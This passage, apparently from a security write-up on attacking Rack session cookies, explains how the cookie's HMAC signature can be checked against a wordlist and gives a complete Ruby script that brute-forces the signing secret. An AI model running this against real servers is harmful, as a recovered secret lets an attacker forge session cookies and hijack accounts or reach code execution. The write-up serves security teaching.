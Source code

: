 ![decode-cookie](/assets/images/posts/rcci/rack-cookie-src4.png)

![decode-cookie](/assets/images/posts/rcci/rack-cookie-src5.png)

We can use this validation process to brute force the secret key by using source code of the rack library to check against a valid cookie with a dictionary of words. Since the server returned to us a cookie, by definition it is valid so we'll use that for our script.

```ruby
require 'uri'
require 'openssl'

# Copied from https://github.com/rack/rack/lib/rack/session/cookie.rb
def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

def find_secret(cookie, words)

    data, signature = cookie.split('--', 2)

    data = URI.decode(data)

    for word in words
        if generate_hmac(data, word) == signature
            return word
        end
    end
    return nil
end

def main

    if ARGV.length != 2
        puts('usage: find-secret <cookie> <wordlist>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)
    words   = IO.readlines(ARGV[1], chomp: true)

    for cookie in cookies
        secret = find_secret(cookie, words)
        if secret.nil?
            puts('find-secret: Brute force failed. Try a different dictionary or check your cookie')
        else
            puts('Secret found: ' + secret)
        end
    end
    return 0
end

main
```
